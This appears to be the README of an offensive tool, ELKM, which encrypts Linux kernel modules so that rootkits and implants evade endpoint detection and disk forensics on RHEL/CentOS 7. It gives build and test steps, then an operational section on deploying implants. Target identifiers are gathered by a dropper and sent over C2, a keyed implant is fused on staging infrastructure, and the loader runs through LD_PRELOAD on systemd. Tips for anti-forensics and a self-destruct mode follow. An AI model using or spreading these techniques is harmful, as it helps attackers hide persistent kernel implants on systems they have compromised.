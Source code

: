 # ELKM: Encrypted Linux x86-64 Loadable Kernel Modules

ELKM provides a mechanism to securely transport and load encrypted Loadable
Kernel Modules (LKM). The aim is to protect kernel-based rootkits and implants
against observation by Endpoint Detection and Response (EDR) software and to
neutralize the effects of recovery by disk forensics tooling.


## RHEL/CentOS 7 

ELKM was specifically written for RHEL/CentOS 7 x86-64.

```
kernel-tools-libs-3.10.0-1127.18.2.el7.x86_64
kernel-devel-3.10.0-1127.18.2.el7.x86_64
kernel-tools-3.10.0-1127.18.2.el7.x86_64
kernel-headers-3.10.0-1127.18.2.el7.x86_64
kernel-3.10.0-1127.18.2.el7.x86_64
```


### Prepare build environment
```
# Become root
sudo su -
# Install packages via yum 
yum install glibc-static kernel-devel kernel-headers openssl-devel libcurl-devel -y
```


### Local automated testing

The test script performs 4 tests:
* Password provided via /sys/class/dmi/id/product_uuid
* Password provided via http://169.254.169.254/latest/meta-data/instance-id (when on EC2)
* Password provided via the environment
* Password provided via stdin

```
$ make
$ ./test.sh
make -C /lib/modules/3.10.0-1127.13.1.el7.x86_64/build M=/home/test/encrypted-kernel-modules clean
make[1]: Entering directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
  CLEAN   /home/test/encrypted-kernel-modules/.tmp_versions
  CLEAN   /home/test/encrypted-kernel-modules/Module.symvers
make[1]: Leaving directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
rm -f loader.so
rm -f payloadfuser
make -C /lib/modules/3.10.0-1127.13.1.el7.x86_64/build M=/home/test/encrypted-kernel-modules modules
make[1]: Entering directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
  CC [M]  /home/test/encrypted-kernel-modules/kernel-module.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/test/encrypted-kernel-modules/kernel-module.mod.o
  LD [M]  /home/test/encrypted-kernel-modules/kernel-module.ko
make[1]: Leaving directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
gcc -o loader.so loader.c -fPIC -shared -ldl -lcrypto -Wall
gcc -o payloadfuser payloadfuser.c -lcrypto -Wall
strip --strip-unneeded kernel-module.ko
strip --strip-unneeded loader.so
strip payloadfuser
--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password '07EC86F1-957C-6B4E-9134-7A6DE5ACC99C', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password 'TEST-ENV-KEY', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password 'TEST-STDIN-KEY', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

```


### Build, and manually create test payload
```
make
./payloadfuser ./kernel-module.ko ./loader.so dummykey
FOO=dummykey LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```


### Operational

#### Tying ELKM to a specific system

##### Via product_uuid

On the target system:
```
cat /sys/class/dmi/id/product_uuid
```

Note: this should be done in an automated manner, e.g. via a dropper. TX the
product_uuid to the staging infrastructure via C2.


On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so $uuid
```

On the target system download the loader from the staging infrastucture, and
execute it via a trusted executable:
```
LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```

##### Via EC2 instance ID

On the target system:
```
curl http://169.254.169.254/latest/meta-data/instance-id
```

Note: this should be done in an automated manner, e.g. via a dropper. TX the
instance ID to the staging infrastructure via C2.

On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so $instanceid
```

On the target system download the loader from the staging infrastucture, and
execute it via a trusted executable:
```
LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```


#### To set the password for use with environment or interactive shell

On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so PASSWORD
```

On the target system, via the environment:
```
# FOO=PASSWORD LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
#
```

Or via stdin:
```
# LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
THISISMYINTERACTIVEPASSWORD
#
```


#### Tips

Some tips if you want to deploy ELKM operationally:

* Do not compile with 'debug'
* Change the function names
* Implement more antifor techniques
* Consider replacing OpenSSL with another crypto library
* Implement a self destruct mode when passwords fail

We chose not to implement these features to avoid fingerprinting.
